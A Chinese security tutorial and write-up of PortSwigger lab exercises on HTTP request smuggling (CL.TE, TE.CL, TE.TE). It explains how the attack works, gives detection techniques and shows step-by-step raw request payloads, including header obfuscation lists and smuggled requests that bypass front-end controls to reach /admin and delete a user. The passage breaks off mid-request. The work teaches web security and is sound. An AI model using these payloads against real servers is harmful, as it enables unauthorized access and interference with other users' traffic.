


# 请求走私利用实践一篇通 - 先知社区

请求走私利用实践一篇通

- - -

## 文章前言

在上次的"Websocket 通信安全概览"一文中对 WebSocket 的请求走私做了一个简单的介绍后总觉得对请求走私这一部分知识内容缺乏一个完整性的梳理，而网络上的文章要么就是只有原理，要么就是一些 CTF 题目，对于一些绕过场景、请求走私的扩展利用场景都没有怎么去涉及过，基于以上欠缺内容以及后面几次断断续续的补充和时间的拼凑最终有了这一篇较为完整的关于请求走私的介绍文章和利用实践文章，而这也算是填补了自己之前遗留的一个坑吧

## 基本介绍

HTTP 请求走私是一种干扰网站处理从一个或多个用户接收的 HTTP 请求序列方式的技术，它允许攻击者绕过安全控制获得对敏感数据的未经授权的访问并直接危害其他应用程序用户，请求走私大多发生于前端服务器和后端服务器对客户端传入的数据理解不一致的情况，主要是因为 HTTP 规范提供了两种不同的方法来指定请求的结束位置，即 Content-Length 和 Transfer-Encoding 标头，请求走私主要与 HTTP/1 请求相关，但是支持 HTTP/2 的网站可能容易受到攻击，具体取决于其后端架构  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153509-9f2a2ae4-aa0a-1.png)

## 协议特性

在 HTTP 1.0 之前的通信协议中客户端会在进行 HTTP 请求时与服务器端通过 TCP 三次握手建立连接，而且是每个请求/响应都需要建立一个新的 TCP 连接，而现如今的 WEB 网站页面是由多种资源文件组成的，我们在获取一个完整的页面内容时则需要对多种资源文件需要进行请求处理，例如：CSS 文件、JS 文件、图片文件等内容，在这样的应用场景下 HTTP /1.1 横空出世并引入了持久连接 (Keep-Alive) 和管道 (Pipeline)，允许在单个 TCP 连接上发送多个 HTTP 请求和响应，规避了 HTTP 服务器负载开销大的问题，同时也提高了性能和效率：

-   管道 (Pipeline)：在 HTTP/1.1 中引入的一项新特性，主要用于改善并发请求的性能，Pipeline 允许客户端在一个 TCP 连接上发送多个请求，而无需等待每个请求的响应，这也意味着客户端可以在发送第一个请求后立即发送下一个请求，而不需要等待前一个请求的响应返回
    
-   持久连接 (Keep-Alive)：在 HTTP/1.1 中引入的一项新特性，持久连接允许在单个 TCP 连接上发送多个 HTTP 请求和响应，而不是为每个请求都建立一个新的连接，当客户端发送一个 HTTP 请求并接收到服务器的响应后，TCP 连接不会立即关闭，而是保持打开状态。这样客户端可以在同一个连接上发送多个请求，而无需重新建立连接，持久连接的好处在于可以减少建立连接时的开销、减少延迟并提高效率
    

## 漏洞原理

现今的 Web 应用程序经常在用户和最终应用程序逻辑之间使用 HTTP 服务器链，用户将请求发送到前端服务器 (有时称为"负载均衡器"或"反向代理")，然后该服务器将请求转发到一台或多台后端服务器，这种类型的架构在现代基于云的应用程序中越来越常见并且在某些情况下是不可避免的，而当前端服务器将 HTTP 请求转发到后端服务器时，它通常会通过同一后端网络连接发送多个请求，因为这样的效率和性能要高得多，HTTP 请求被一个接一个地发送，接收服务器必须确定一个请求在哪里结束以及下一个请求从哪里开始  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153722-eeaf2d4e-aa0a-1.png)  
在这种情况下前端和后端系统就请求之间的边界达成一致至关重要，否则攻击者可能能够发送不明确的请求，前端和后端系统会以不同的方式解释该请求，在下面的示例图中攻击者通过更改请求数据包导致其前端请求的一部分被后端服务器解释为下一个请求的开始，它有效地添加到下一个请求之前，因此可能会干扰应用程序处理该请求的方式，这便是请求走私攻击，可能会造成灾难性的后果

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103153733-f522c8ca-aa0a-1.png)  
在 HTTP 1.1 版本中提供了两种不同的方式来指定请求的结束位置：Content-Length 和 Transfer-Encoding  
(1) Content-Length：HTTP 协议中的一个头部字段，用于指示请求或响应消息体的长度 (以字节为单位)，它主要用于告诉接收方需要接收的数据的准确大小以便正确解析和处理消息，例如：

```plain
POST /search HTTP/1.1
Host: normal-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

(2) Transfer-Encoding：HTTP 协议中的一个头部字段，它主要用于指定消息正文使用分块编码，这意味着消息正文包含一个或多个数据块，每个块由块大小 (以字节为单位)(以十六进制表示) 组成，后跟换行符，然后是块内容，消息以大小为零的块终止，常见的 Transfer-Encoding 值有两种：  
a、chunked：表示消息体采用分块传输编码，在分块传输编码中消息体被分成一系列大小不等的块，每个块前面都包含该块的大小信息，这允许消息体在传输过程中逐步发送，而不需要等待整个消息体完全生成，接收方通过读取每个块的大小信息来逐步重构完整的消息体，下面是使用 chunked 传输编码的响应消息示例：

```plain
HTTP/1.1 200 OK
Content-Type: text/plain
Transfer-Encoding: chunked

25
This is the first chunk of data.
1A
This is the second chunk.
0
```

b、gzip、deflate 等：表示消息体采用压缩编码，这些压缩编码算法可以对消息体进行压缩，从而减少传输的数据量，接收方在接收到压缩编码的消息体后需要对其进行解压缩才能获取原始的消息内容，下面是使用 gzip 压缩编码的响应消息示例

```plain
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Encoding: gzip

[compressed data]
```

由于 HTTP /1 规范提供了两种不同的方法来指定 HTTP 消息的长度，因此单个消息有可能同时使用这两种方法，从而导致它们相互冲突，针对此类问题我们建议如果 Content-Length 和 Transfer-Encoding 头都存在时应该采用忽略 Content-Length 来防止此问题，但是当只有一个服务器在运行时，这可以避免歧义，但当两个或多个服务器链接在一起时就无法避免歧义了，在这种情况下，出现问题的原因有两个：

-   如果某些服务器不支持 Transfer-Encoding 请求中的标头，则可能会导致歧义
-   如果请求头以某种方式被混淆，支持 Transfer-Encoding 标头的服务器可能会被诱导不去处理它

总而言之，如果前端和后端服务器对于 (可能是混淆的)Transfer-Encoding 标头的行为不同，那么它们可能对连续请求之间的边界存在分歧，从而导致请求走私漏洞

## 走私检测

经典的请求走私主要涉及 Content-Length 和 Transfer-Encoding 两个头信息，通过更改其数值并将其放入单个 HTTP/1 请求中对其进行请求测试操作，观察是否可以从前后的数据包中得到意外响应，常见的前后端请求处理方式有以下几种类型：

-   CL.TE：前端服务器使用 Content-Length 头，后端服务器使用 Transfer-Encoding 头
-   TE.CL：前端服务器使用 Transfer-Encoding 标头，后端服务器使用 Content-Length 标头
-   TE.TE：前端和后端服务器都支持 Transfer-Encoding 标头，但是可以通过以某种方式模糊标头来诱导其中一个服务器不处理它

接下来用几个实例来说明 HTTP 走私攻击：

### CL.TE vulnerabilities

在这种情况之下，前端服务器使用 Content-Length 长度头，后端服务器使用 Transfer-Encoding，我们可以执行简单的 HTTP 请求走私攻击，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 13
Transfer-Encoding: chunked

0

SMUGGLED
```

前端服务器处理 Content-Length 标头并确定请求正文的长度为 13 个字节，直到 SMUGGLED 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te](https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te)  
解题过程：  
Step 1：访问以上链接并点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154008-51abf38c-aa0b-1.png)  
Step 2：捕获数据包并构造一下请求报文

```plain
POST / HTTP/1.1
Host: 0af800e2048fe11a806ff35700f30086.web-security-academy.net
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 6
Transfer-Encoding: chunked
Cookie: session=Z9jX1prJb6b6yIn5SbqiZY50uHHeECIX

0

G
```

第一次请求操作如下所示：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154039-644105be-aa0b-1.png)  
第二次请求时发现回显提示"Unrecognized method GPOST"，这个主要是由于前端服务器处理 Content-Length 标头并确定请求正文的长度为 6 个字节，直到 G 结束，这个请求被转发到后端服务器，后端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，该块被声明为零长度，因此被视为终止请求，而后面的字节 (走私的) 未被处理，后端服务器将把这些视为序列中下一个请求的开始，所以成为了最后的——"GPOST"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154054-6d47dac0-aa0b-1.png)  
Step 3：随后刷新页面成功完成解题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154107-74e80322-aa0b-1.png)

### TE.CL vulnerabilities

在此类场景下，前端服务器使用 Transfer-Encoding 头，后端服务器使用 Content-Length 头，我们可以执行简单的 HTTP 请求走私攻击，如下所示：

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked

8
SMUGGLED
0
```

前端服务器处理 Transfer-Encoding 头，因此将邮件正文视为使用分块编码，它处理第一个块，据说它有 8 个字节长，直到走私的下一行的开始，它处理第二个块，该块被声明为零长度，因此被视为终止请求，这个请求被转发到后端服务器，后端服务器处理 Content-Length 标头并确定请求正文的长度为 3 个字节，直到第 8 行的开头，接下来的字节，从走私开始没有被处理，后端服务器将把这些视为序列中下一个请求的开始  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl](https://portswigger.net/web-security/request-smuggling/lab-basic-te-cl)  
解题过程：  
Step 1：访问以上链接进入到靶场，随后点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154143-8a6035f8-aa0b-1.png)  
Step 2：修改从 burpsuite 中捕获到的数据报文，构造如下的请求走私请求 (这里推荐打击使用新版本的 Burpsuite，主要是可以可视化换行，其次需要注意的一个点是最后的那个 0 的后面也得\\r\\n，再者是需要移除栏目 Repeater 中的 UnUpdate Content-Length)

```plain
POST / HTTP/1.1
Host: 0a96003604f8aabe8031df2300fe009a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154206-979f3a70-aa0b-1.png)  
随后进行第二次发包，提示"Unrecognized method GPOST"

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154223-a1d7c0de-aa0b-1.png)  
Step 3：随后完成解题操作

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154238-ab1ae19e-aa0b-1.png)

### TE.TE vulnerabilities

在这种场景下，前端和后端服务器都支持 Transfer-Encoding 头，但是可以通过以某种方式混淆头来诱导其中一个服务器不处理它，可能有无穷无尽的方法来混淆传输编码头，例如：

```plain
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

这些技术中的每一种都与 HTTP 规范有细微的不同，实现协议规范的真实世界代码很少绝对精确地遵守它并且不同的实现容忍与规范不同的变化是很常见的，根据是前端服务器还是后端服务器可以被诱导不处理混淆的传输编码报头，攻击的剩余部分将采取与 CL 相同的形式，TE 还是 TE  
靶场地址：[https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header](https://portswigger.net/web-security/request-smuggling/lab-obfuscating-te-header)  
解题过程：  
Step 1：访问上面的靶场地址并直接点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154312-bf4f3d18-aa0b-1.png)  
Step 2：抓取数据包并构造如下请求走私的攻击请求

```plain
POST / HTTP/1.1
Host: 0a60007404aa738e80bff93900e000a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked
Transfer-Encoding: cow

5c
GPOST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154340-d02af71c-aa0b-1.png)  
第二次请求回显结果提示——"Unrecognized method GPOST"，至于原理可以看上面，这里不再赘述，本实验就是结合上面的理论而构造的，在现实世界中可能或多或少也会有此类情况，但是少  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154358-dac6a130-aa0b-1.png)  
Step 3：刷新页面完成解题  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154416-e57f44ce-aa0b-1.png)

## 检测扩展

下面我们介绍一些常见的用户检测是否存在请求走私的方法技巧：

### 时间差异

检测 HTTP 请求走私漏洞最有效的方法是发送请求，这里我们介绍一种通过时间延迟的方式来检测是否存在请求走私漏洞的方法，Burp Scanner 已然实现这种技术

#### CL.TE vulnerabilities

如果应用程序易受 CL 攻击，那么我们可以尝试发送以下请求走私的变体，此时通常会导致时间延迟，这主要是由于前端服务器使用 Content-Length 头，它将只转发该请求的一部分，忽略 x，后端服务器使用 Transfer-Encoding 头，处理第一个块，然后等待下一个块到达，这将导致明显的时间延迟

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 4

1
A
X
```

#### TE.CL vulnerabilities

如果应用程序易受 TE 攻击，那么我们可以尝试发送如下请求走私的 CL 变体，此时通常会导致时间延迟，这主要是因为前端服务器使用 Transfer-Encoding 头，因此它将只转发该请求的一部分，省略 x，后端服务器使用 Content-Length 头，希望邮件正文中有更多内容并等待剩余内容到达，这将导致明显的时间延迟

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Content-Length: 6

0

X
```

### 响应差异

#### CL.TE vulnerabilities

在检测到可能的请求走私漏洞时，我们可以通过利用它来触发应用程序响应内容的差异从而获得漏洞的进一步证据，这包括快速连续地向应用程序发送两个请求：  
在干扰下一个请求处理的"Attack"请求  
再次发送一个"正常"的请求  
如果正常请求的响应包含预期的干扰内容则说明存在请求走私漏洞，例如：假设正常请求如下所示

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

该请求通常会收到状态代码为 200 的 HTTP 响应，其中包含一些搜索结果，干扰这个请求所需的攻击请求取决于存在的请求走私的变体:CL.TE vs TE.CL，这里我们以 CL.TE 为例：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

如果攻击成功，那么后端服务器会将该请求的最后两行视为接收到的下一个请求，这将导致后续的"正常"请求如下所示，由于这个请求现在包含一个无效的 URL，服务器将用状态代码 404 响应，表明攻击请求确实干扰了：

```plain
GET /404 HTTP/1.1
Foo: xPOST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场来介绍具体的 fuzzing：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-cl-te-via-differential-responses)  
测试流程：  
Step 1：访问上述靶场地址并点击"ACCESS THELAB"进入靶场

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154617-2da97c7e-aa0c-1.png)

Step 2：随意抓取一个数据包并构造以下 Fuzzing 请求

```plain
POST / HTTP/1.1
Host: 0ae900850431f4b482522fd000e3007d.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 35
Transfer-Encoding: chunked

0

GET /404 HTTP/1.1
X-Ignore: X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154646-3eedd8b8-aa0c-1.png)  
第二个包请求后会给一个 404 响应

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154703-48bf7c7a-aa0c-1.png)

#### TE.CL vulnerabilities

如果要确认一个 TE.CL 漏洞，我们可以发送如下请求：

```plain
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

7c
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 144

x=
0
```

如果目标系统存在漏洞且被攻击成功，那么从 GET /404 开始的所有内容都会被后端服务器视为属于接收到的下一个请求，这将导致后续的"正常"请求如下所示：

```plain
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

x=
0

POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 11

q=smuggling
```

下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses](https://portswigger.net/web-security/request-smuggling/finding/lab-confirming-te-cl-via-differential-responses)  
测试演示：  
Step 1：访问靶场并点击"ACCESS THELAB"进入到靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154841-833198f2-aa0c-1.png)  
Step 2：使用 burpsuite 抓包并构造如下恶意请求载荷

```plain
POST / HTTP/1.1
Host: 0a71000f036353f181142ace00340041.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154907-92e77618-aa0c-1.png)  
第二个包请求后会给一个 404 响应  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154925-9d76c49e-aa0c-1.png)  
随后成功解题：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103154941-a6fa355a-aa0c-1.png)

## 走私绕过

### 前端限制

假设应用程序使用前端服务器来实现访问控制限制，仅当用户被授权访问所请求的 URL 时才转发请求，然后后端服务器接受每个请求，而不做进一步的检查，在这种情况下可以利用 HTTP 请求走私漏洞通过请求走私访问受限制的 URL 从而绕过访问控制，假如允许当前用户访问/home，但不允许访问/admin，他们可以使用以下请求走私攻击绕过这一限制：

```plain
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

前端服务器在这里看到两个请求，都是针对/home 的，因此请求被转发到后端服务器，但是后端服务器看到一个对/home 的请求和一个对/admin 的请求，它 (像往常一样) 假设请求已经通过了前端控件，因此授予对受限 URL 的访问权限  
下面我们介绍一下具体的绕过方式：

#### CL.TE Bypass

靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-cl-te)  
绕过演示：  
Step 1：直接访问上面的链接，点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155020-be7c67d4-aa0c-1.png)  
Step 2：访问/admin 路径会发现被拦截  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155035-c71da0ec-aa0c-1.png)  
Step 3：随后我们构造如下请求数据包并发送两次尝试请求走私

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155100-d669d868-aa0c-1.png)  
此时第二个数据包中看到只允许 local 访问

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155119-e1808cba-aa0c-1.png)  
随后添加头部信息"Host: localhost"，修改后的请求数据包如下并请求两次：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155201-fa4f1b44-aa0c-1.png)  
从上面可以看到这里由于第二个请求的主机头与第一个请求中走私的主机头冲突，从而导致请求被阻塞，随后发送以下请求两次以便将第二个请求的标头附加到走私的请求正文中：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155228-0ab0e922-aa0d-1.png)  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155241-12ae5498-aa0d-1.png)  
现在我们可以访问管理面板了，随后我们直接调用接口来删除 carlos：

```plain
POST / HTTP/1.1
Host: 0ae3000c04275ff48012fd73008e00b8.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155311-2485f9f0-aa0d-1.png)  
随后完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155323-2b601864-aa0d-1.png)

#### TE.CL Bypass

靶场介绍：本实验涉及前端和后端服务器，后端服务器不支持分块编码，在/admin 有一个管理面板，但是前端服务器阻止了对它的访问  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl](https://portswigger.net/web-security/request-smuggling/exploiting/lab-bypass-front-end-controls-te-cl)  
绕过演示：  
首先访问上述靶机，点击"ACCESS THELAB"进入靶场  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155350-3b7997f2-aa0d-1.png)  
访问/admin 路径时会被直接拦截  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155408-462df67a-aa0d-1.png)  
随后构造以下请求走私载荷并发送两次请求

```plain
Content-length: 4
Transfer-Encoding: chunked

60
POST /admin HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155433-54f3054c-aa0d-1.png)  
可以看到和上面的一个靶场一样，都需要本地访问，随后直接增加头部信息即可

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: chunked

71
POST /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155500-65794e80-aa0d-1.png)  
从上面可以看到进入到了 admin 的控制面板，随后调用接口执行删除操作

```plain
POST / HTTP/1.1
Host: 0aa2009b039439b080a5fd6a00dd00a4.web-security-academy.net
Content-length: 4
Transfer-Encoding: chunked

87
GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155540-7d243996-aa0d-1.png)  
随后刷新页面完成解题：  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155559-884287b0-aa0d-1.png)

### 请求重写

在许多应用程序中前端服务器在将请求转发到后端服务器之前会对请求进行一些重写，通常是通过添加一些额外的请求头，例如：前端服务器可能

-   添加一些攻击头敏感信息
-   添加包含用户 IP 地址的 X-Forwarded-For
-   根据用户的会话令牌确定用户的 ID 并添加标识用户的标头

在某些情况下如果您的走私请求缺少一些通常由前端服务器添加的头，那么后端服务器可能不会以正常方式处理请求，从而导致走私请求无法达到预期的效果，通常有一种简单的方法来检测前端服务器是如何重写请求的，为此您需要执行以下步骤：

-   首先找到一个 POST 请求并是那种可以将请求参数的值回显到应用程序的响应中的包
-   随后尝试随机排列参数，使反射的参数写在消息正文的最后
-   然后将这个请求偷偷发送到后端服务器，后面直接跟着一个普通的请求，您希望显示该请求的重写形式

假设应用程序有一个反映 email 参数值的登录函数：

```plain
POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 28

email=wiener@normal-user.net
```

这将会导致响应包中包含以下内容信息：

```plain
<input id="email" value="wiener@normal-user.net" type="text">
```

```plain
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=POST /login HTTP/1.1
Host: vulnerable-website.com
```

前端服务器将重写请求以包括附加的报头，然后后端服务器将处理走私的请求并将重写的第二请求视为 emil 参数的值，然后它会在第二个请求的响应中回显这个值：

```plain
<input id="email" value="POST /login HTTP/1.1
Host: vulnerable-website.com
X-Forwarded-For: 1.3.3.7
X-Forwarded-Proto: https
X-TLS-Bits: 128
X-TLS-Cipher: ECDHE-RSA-AES128-GCM-SHA256
X-TLS-Version: TLSv1.2
x-nr-external-service: external
...
```

确定前端服务器是如何重写请求的后我们就可以将必要的重写应用到您走私的请求上以确保它们被后端服务器以预期的方式处理，下面我们通过一个靶场进行简单的演示：  
靶场地址：[https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting](https://portswigger.net/web-security/request-smuggling/exploiting/lab-reveal-front-end-request-rewriting)  
靶场介绍：本实验涉及前端和后端服务器，前端服务器不支持分块编码，在/admin 有一个管理面板，但是只有 IP 地址为 127.0.0.1 的人才能访问，前端服务器向包含 IP 地址的传入请求添加 HTTP 头，它类似于 X-Forwarded-For 标头，但名称不同，为了解决这个实验题目，你需要偷偷的向后端服务器发送一个请求，该请求显示前端服务器添加的头，然后偷偷向后端服务器发送一个请求，其中包含添加的头，访问管理面板并删除用户 carlos  
演示步骤：  
Step 1：首先访问上面的链接进入靶场地址，随后点击"ACCESS THELAB"进入靶场，直接访问/admin 地址会被拦截，回显内容提示需要 administrator 用户访问并要求来访地址为 127.0.0.1 才阔以  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155800-d0467b0c-aa0d-1.png)  
然后搜索 Blog

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155813-d811163a-aa0d-1.png)  
使用 burpsuite 抓包可以看到我们搜索的内容——"1111"被回显到了响应报文中  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155829-e1e6fe0e-aa0d-1.png)  
Step 3：随后构造以下请求数据报文

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 124
Transfer-Encoding: chunked

0

POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 200
Connection: close

search=test
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155855-f18dfe66-aa0d-1.png)

第二次发送请求数据报文回显结果如下，可以看到响应中"Search results for"后跟了重写的 HTTP 请求的开头

[](https://xzfile.aliyuncs.com/media/upload/picture/20240103155911-fa99fde8-aa0d-1.png)  
随后记下重写请求中 X-\*-IP 报头的名称并使用它来访问管理面板：

```plain
POST / HTTP/1.1
Host: 0ae000aa04f227c28184f2bb00e80084.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 143
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-GoOvNz-Ip: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
